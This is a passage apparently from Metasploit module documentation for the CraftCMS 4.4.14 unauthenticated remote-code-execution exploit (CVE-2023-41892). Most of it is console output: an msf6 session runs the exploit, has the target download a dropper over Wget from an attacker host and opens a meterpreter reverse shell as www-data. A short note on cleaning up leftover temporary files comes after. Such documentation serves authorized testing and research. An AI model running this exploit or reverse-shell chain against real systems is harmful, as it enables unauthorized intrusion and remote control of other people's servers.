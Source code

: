 ```shell
uname -a
Linux craftcms-vuln-web 6.4.16-linuxkit #1 SMP PREEMPT_DYNAMIC Thu Nov 16 10:55:59 UTC 2023 x86_64 GNU/Linux
id
uid=501(www-data) gid=20(dialout) groups=20(dialout)
```
### CraftCMS 4.4.14 on MacOS Linux Dropper - linux/x64/meterpreter/reverse_tcp
```shell
msf6 exploit(linux/http/craftcms_unauth_rce_cve_2023_41892) > set target 2
target => 2
msf6 exploit(linux/http/craftcms_unauth_rce_cve_2023_41892) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] {"upload_tmp_dir"=>"/tmp", "document_root"=>"/var/www/html/web"}
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.8:8080/bzzA52uoIqWP
[*] Client 192.168.201.25 (Wget/1.21) requested /bzzA52uoIqWP
[*] Sending payload to 192.168.201.25 (Wget/1.21)
[*] Sending stage (3045380 bytes) to 192.168.201.25
[+] Deleted /var/www/html/web/sFQEhvKKcl.php
[+] Deleted /tmp/phpeQPKpy
[*] Meterpreter session 3 opened (192.168.201.8:4444 -> 192.168.201.25:51122) at 2023-12-17 12:35:54 +0000
[*] Command Stager progress - 100.00% done (118/118 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.16.2
OS           : Debian 11.8 (Linux 6.4.16-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: www-data
meterpreter >
```
## Limitations
Part of the exploit is the MSL script creation triggered by the Imagick plugin module. These files are created in the directory
set by the `upload_tmp_dir` setting in the `php.ini` file (default `/tmp`). These files are automatically cleaned, but in case of
any failure cleaning these files, do clean them manually otherwise the next exploit session will fail using an outdated MSL file.
These files start with `php` and you can list them with the command `ls php*`.
